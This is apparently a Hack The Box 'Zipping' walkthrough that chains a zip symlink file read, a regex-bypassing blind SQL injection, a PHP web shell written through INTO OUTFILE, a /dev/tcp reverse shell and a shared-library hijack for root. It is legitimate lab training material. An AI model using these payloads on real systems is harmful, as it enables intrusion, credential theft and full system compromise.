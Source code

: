 # Hack The Box - Zipping Walkthrough

### Services Enumeration
The first step is to enumerate the services of the machine.

```
sudo nmap -sC -sV -p22,80 zipping.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-26 16:35 CET
Nmap scan report for zipping.htb (10.10.11.229)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.51 seconds
```

We can see that there is only two services ssh and a web application. The web application provides various avenues for exploitation. The "Work for us" page allows only a .pdf file within a .zip file to be uploaded. Exploiting a symlink vulnerability, we can make the server expose sensitive data.

### Symlink Exploitation
- Create a symbolic link to a specific file (e.g., `/etc/passwd`):

```bash
ln -s ../../../../../../etc/passwd symindex.pdf
```

- Create a .zip file with the symlink inside:

```bash
zip --symlinks test.zip symindex.pdf
```

This vulnerability only grants the ability to read any file on the server, but it does not allow the execution of .php files or listing files under a directory.

### Initial Enumeration
Upload the .zip and go to the .pdf file, I recommend use Burp Suite to see the response of the server. The Developer Tools of browsers didn't work for me. Extracting the contents of `/etc/passwd` from the server reveals user information, i.e. user named "rektsu". 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

Exploiting this vulnerability we can obtain valuables files such as:

- `/var/www/html/index.php`
- `/var/www/html/shop/index.php`
- `/var/www/html/shop/cart.php`
- `/var/www/html/shop/products.php`
- `/var/www/html/shop/home.php`
- `/var/www/html/shop/functions.php`

In the `/var/www/html/shop/functions.php` we will get database credentials:

```php
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'root';
$DATABASE_PASS = 'MySQL_P@ssw0rd!';
$DATABASE_NAME = 'zipping';
```

### Path Traversal Vulnerability
Identified a path traversal vulnerability revealing crucial server-side files (index.php, cart.php, etc.) under `/var/www/html/shop/index.php`.

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```
This php code allows us to execute a .php file from any location of server.

### SQL Injection Discovery
Discovered an SQL injection vulnerability within `/var/www/html/shop/cart.php`, allowing manipulation of the `product_id` parameter.
```php
$product_id = $_POST['product_id'];
$quantity = $_POST['quantity'];
// Filtering user input for letters or special characters
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
    echo '';
} else {
    // Construct the SQL statement with a vulnerable parameter
    $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
    // Execute the SQL statement without any sanitization or parameter binding
    $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
    ...
}
```


We notice that the `product_id` parameter is being used without proper sanitization and could potentially be exploited for SQL injection. However, we're unable to input any letters or any symbols.
Firstly, we need to bypass the regex function. We require a specific payload: it should start with a newline character, followed by the SQL injection, and finally end with a number, formatted as such (remember to URL encode before sending the request)...

```sql

1' and sleep(10) -- -1
```

### SQLMap Enumeration
Once we realize we can perform an SQLi, we find it's a Blind SQLi, meaning we won't be able to directly view the response from our SQLi. This slows down the FootPrinting process, but with some patience and the 'sqlmap' tool, we can enumerate the database. The following command serves as an example of enumeration:

```bash
sqlmap -u "http://zipping.htb/shop/index.php?page=cart" --data="product_id=1&quantity=1" --skip="quantity" --prefix="%0a'" --suffix="-- -1" --dbms="MySQL" -D zipping -T products --schema --ignore-redirects --common-columns
```
<i>Note: %0a is the URL encode of a new line \n.</i>

After enumerating the database, this is the most valuable information I got:
- Database: Zipping
- Tables: products
- Privileges FILE: Y
- @@data_dir: `/var/lib/mysql`

We notice that we can write a file but only in the `/var/lib/mysql` directory. A little recap, we have found that we can write a .php file and we can execute a php file from any directory using the Path Traversal at the `/shop/index.php=page=[MALICOUS_PHP_FILE]`.

### Exploiting SQL Injection and Path Traversal to Gain Shell Access
The next SQLi will write a webshell at `/var/lib/mysql/shell.php`, this web shell works with GET request and the parameter `0=[command]`.

```sql

1'; SELECT "<?php system($_GET[0]); ?>" INTO OUTFILE '/var/lib/mysql/shell.php'; -- -1
```

Now access the URL `http://zipping.htb/shop/index.php?page=/var/lib/mysql/shell.php?0=[REVERSE_SHELL_PAYLOAD]`

You can obtain a reverse shell at https://www.revshells.com/. An example of reverse shell would be:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/[YOUR-IP]/7000 0>&1'
```

<i>Note: I always use `/bin/bash -c` as a prefix beucase it has a better percentage of success.</i>

## Privilege Escalation

After obtaining a shell as "rektsu". the next step involves privilege escalation. Initially, we'll enumerate the machine using the `sudo -l` command, discovering that we can execute the `/usr/bin/stock` binary as sudo without being prompted for a password. Upon this realization, we execute it to observe its behavior and notice the absence of a password prompt.

### Reverse Engineering
Consequently, we analyze the binary using the `strings /usr/bin/stock` command, extracting various strings from the executable. Notably, before prompting for a password, there exists the string "St0ckM4nager". Further analysis of the strings reveals a CSV file loaded at `/root/stock.csv`. Executing the binary with the password exposes a small program offering stock display and edit options. However, attempting to inject any commands proves unsuccessful.

If we utilize the `strace` command to run the `/usr/bin/stock` binary and input the password, we'll notice it attempts to load a file from `/home/rektsu/.config/libcounter.so`, indicating that it hasn't been found. When checking for this file, it indeed doesn't exist, but we have the capability to create it.

### Creating libcounter.so
we'll create the `libcounter.so` file, allowing us solely to view the root flag, although it's also possible to obtain a shell.


```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) load_shellcode() {
    system("cat /root/root.txt");
}
```
Compiled the shared object file:

```bash
gcc -fPIC -shared -o libcounter.so libcounter.c
```

### Final Execution
Finnally, just execute the binary as sudo an obtain the flag.
```
sudo /usr/bin/stock
```
